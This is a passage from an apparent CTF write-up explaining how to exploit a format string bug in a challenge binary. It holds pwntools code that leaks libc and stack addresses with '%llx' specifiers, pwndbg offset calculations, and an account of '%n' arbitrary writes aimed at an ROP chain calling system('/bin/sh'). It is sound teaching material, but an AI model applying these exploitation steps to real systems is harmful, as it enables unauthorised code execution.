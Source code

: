 Great, it looks like `7ffff7e0924a` is a libc address and `7fffffffe418` is a stack address. Now, it's important you cross verify with the remote server since the stack may look different on your local instance as it is on the server's (this is why I'm picking `7fffffffe418` as my stack leak over the `7fffffffe400`).

Now that I know which positional arguments to look at, I can modify the above payload to only have it output those 2 values.

```python
# pay = '.'.join([f'%{i}$llx' for i in range(20, 30)])
pay = b'%23$llx.%27$llx'
r.sendlineafter(b'>', pay)

# Parse stack and libc leak
r.recvuntil(b'you a ')
libc_leak = int(r.recvuntil(b'.')[:-1], 16)
stack_leak = int(r.recvline().strip(), 16)
log.info('Libc leak: ' + hex(libc_leak))
log.info('Stack leak: ' + hex(stack_leak))
```

Using these leaks, we can find libc base address and the return address of `main`. I found the offsets to retrieve those values using gdb:

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
(--snip--)
    0x7ffff7de2000     0x7ffff7e08000 r--p    26000      0 /home/coraline/CTF/work/pwn-writeups/nitectf24/pr
int-the-gifts/libc.so.6
(--snip (we only care about first libc.so.6 entry for base)-- )

## Calculate libc base offset from our leak ##
pwndbg> p/x 0x7ffff7e0924a - 0x7ffff7de2000
$2 = 0x2724a

# Calculate main's return address offset from our stack leak ##
pwndbg> retaddr
0x7fffffffdc88 —▸ 0x7ffff7e0924a ◂— mov edi, eax
(--snip--)
pwndbg> p/x 0x7fffffffdd98 - 0x7fffffffdc88
$3 = 0x110
```

```python
libc.address = libc_leak - 0x2724a
ret_addr = stack_leak - 0x110
log.info('Libc base: ' + hex(libc.address))
log.info('Ret addr: ' + hex(ret_addr))
```

Great! Onto the next step - we want to create an ROP chain to call `system('/bin/sh', 0, 0)`. As mentioned above, we can perform arbitrary write with a format string vulnerability by using the format specifier `%n`. This specifier writes over how many characters have been printed out thus far into the address pointed to by the argument. For example, `aaaa%8$n` writes `len('aaaa') = 4` to the address pointed to by the 8th argument (which lives on the stack). This is pretty powerful because the string `buf` is on the stack, so we can create pointers to anywhere.

